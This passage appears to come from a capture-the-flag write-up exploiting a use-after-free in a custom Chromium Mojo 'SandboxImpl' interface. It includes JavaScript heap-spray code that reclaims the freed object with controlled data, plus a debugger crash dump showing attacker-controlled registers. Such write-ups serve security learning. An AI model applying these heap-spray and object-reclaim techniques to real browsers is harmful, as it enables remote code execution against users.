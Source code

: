 
It looks like Chromium is crashing in `Pour` where it assigns the new `std::vector` to `this->backup_`. This almost certainly happens because we've reclaimed the the object with our spray and so the code thinks that `this->backup_` already points to an object which must be freed. This is a good crash because it shows that we can indeed reclaim the freed object with controlled data, but it would much more useful if we could reach the following line which has a virtual function call. We can fix this crash by spraying a fake `SandboxImpl` that has `backup_` set to `nullptr` instead of 0x4141414141414141.

```js
let clients = [];
for (let i = 0; i < 1000; i++) {
  clients.push(newClient());
}

let spray = [];
for (let i = 0; i < 100; i++) {
  spray.push(newClient());
}

let iface = newClient();

let arg2 = new BigUint64Array(0x1020 / 8);
arg2.fill(0x4141414141414141n);
arg2[0x800 / 8 + 0x818 / 8] = 0n;
let arg = new Uint8Array(arg2.buffer);

for (let i = 0; i < clients.length; i++) {
  clients[i].pourSand(arg);
}

for (let i = 0; i < 100; i++) {
  iface.pourSand(arg);
  iface.ptr.reset();
  iface = newClient();
}

for (let i = 0; i < spray.length; i++) {
  spray[i].pourSand(arg);
}
```

```
Thread 8 "Chrome_IOThread" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff1504640 (LWP 12689)]
0x000055555b7b216b in Pour () at ../../content/browser/sandbox/sandbox_impl.cc:60
60	            this->PourSand(sand_for_box);
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
*RAX  0x4141414141414141 ('AAAAAAAA')
*RBX  0x12c000ee7800 ◂— 0x4141414141414141 ('AAAAAAAA')
 RCX  0x0
*RDX  0x12c000ee8000 ◂— 0x4141414141414141 ('AAAAAAAA')
*RDI  0x12c000ee7800 ◂— 0x4141414141414141 ('AAAAAAAA')
 RSI  0x7ffff1503000 —▸ 0x12c0003dd800 ◂— 0x4141414141414141 ('AAAAAAAA')
*R8   0x12c000ee7800 ◂— 0x4141414141414141 ('AAAAAAAA')
 R9   0x7ffff1502ec4 ◂— 0x4abb410038323134 /* '4128' */
 R10  0x0
 R11  0x293
*R12  0x12c000285000 ◂— 0x4141414141414141 ('AAAAAAAA')
*R13  0x12c000286020 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
*R14  0x12c000ee8020 ◂— 0x0
 R15  0x0
```